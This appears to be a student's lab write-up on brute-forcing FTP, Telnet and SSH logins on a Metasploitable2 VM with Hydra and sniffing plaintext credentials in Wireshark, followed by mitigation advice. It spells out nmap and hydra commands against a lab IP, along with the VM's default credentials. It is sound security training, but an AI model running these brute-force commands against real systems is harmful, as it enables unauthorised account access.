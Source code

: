 

# 💻 Labwork 1: Brute Force and Sniffing

---
## 🎯 Objectives

- Understand how brute-force attacks work on common network services (FTP, Telnet, SSH).
- Practice using tools like Hydra for password attacks.
- Learn how to use Wireshark to analyze network traffic.
- Identify insecure protocols that transmit data in plaintext.
- Propose secure alternatives and mitigation strategies.

## 🧰 Tools Used
- **Hydra** – for performing brute force attacks  
- **Wireshark** – for capturing and analyzing network traffic  
- **Kali Linux** – used as the attacker machine  
- **Metasploitable2** – vulnerable virtual machine  
- **FTP, Telnet, SSH** – services used for login and analysis  

---

## 📍 Target IP Enumeration


1. Run the following command on **Kali Linux** to find the Metasploitable2 IP:
   ```bash
   netdiscover
or:
   ```bash
   nmap -sn 192.168.154.0/24
   ```
or:

Use this command on Metasploitable2:
   ```bash
   ifconfig
   ```
# 1. Enumeration of Usernames🥐

Initial usernames used for brute force attacks were manually prepared in a file usernames.txt:
1.1 Prepare a text file with potential usernames:

    vim username.txt

- msfadmin
- user
- admin
- root
- test
- guest
  

1.2 Prepare a text file with potential passwords:

      vim password.txt

- msfadmin
- user
- admin
- root
- test
- guest

![Screenshot](https://github.com/L-Azymm/Labwork-1/blob/Image/Screenshot%202025-04-08%20122646.png?raw=true)


# 2. Brute Force Attacks🥖

**2.1 FTP**
    - Tool: Hydra
    - Command Used:
        
          hydra -L usernames.txt -P passwords.txt ftp://192.168.154.133

Result: Successful login found – msfadmin:msfadmin

---

**2.2 Telnet**
    - Tool: Hydra
    - Command Used:
       
        hydra -l msfadmin -P passwords.txt telnet://192.168.154.133

Result: Successful login – msfadmin:msfadmin

---

**2.3 SSH**
    - Tool: Hydra
    - Command Used:
        
        hydra -L usernames.txt -P passwords.txt ssh://192.168.154.133

Problem: Hydra (or the SSH client it's using) doesn't support the older key exchange algorithms used by the Meta2 machine, which is very outdated



# 3. Sniffing Network Traffic🍖

**3.1 Start Wireshark on Kali**

a) Open Wireshark

b) Select the active network interface (e.g., eth0 or ens33).

c) Start capturing

---

**3.2 FTP Login Traffic Analysis**

a) Connect using:

    ftp 192.168.154.133

b) Login with: msfadmin:msfadmin

c) In Wireshark, use filter:

    ftp 

---
**3.3 Telnet Login Traffic Analysis**

a) Connect using 

    telnet 192.168.154.133

b) Login with: msfadmin:msfadmin

c) In Wireshark, use filter:

    telnet



# 4.Problems Encountered🍕

| Protocol | Problem | Solution |
|----------|---------|----------|
|FTP	   |None	 |N/A
|Telnet|	Service was off initially	|Enabled Telnet on Metasploitable2
|SSH	|Hydra connection failed due to key mismatch	|

# 5.Mitigation Strategies🍥

| Protocol | Vulnerability | Secure Alternative	| Why it’s better|
|-----------|-------------|---------------------|---------------|
|FTP	|Sends credentials in plaintext	|SFT2P / FTPS|	Encrypts file transfer data and credentials
|Telnet|	Transmits all in plaintext|	SSH	|SSH encrypts communication
|SSH	|Still brute-forceable	|Use key-based login, strong passwords	|Prevents brute force access

# ✅ Summary
- FTP and Telnet are insecure protocols that transmit credentials in plaintext.
- Hydra can easily brute-force weak credentials.
- SSH is secure but can still be targeted using brute-force unless hardened.
- Use tools like Wireshark to confirm data security over the network.
- Always replace insecure services with encrypted alternatives like SSH or FTPS.
- Apply proper access control, firewalls, and monitoring to reduce attack surfaces.


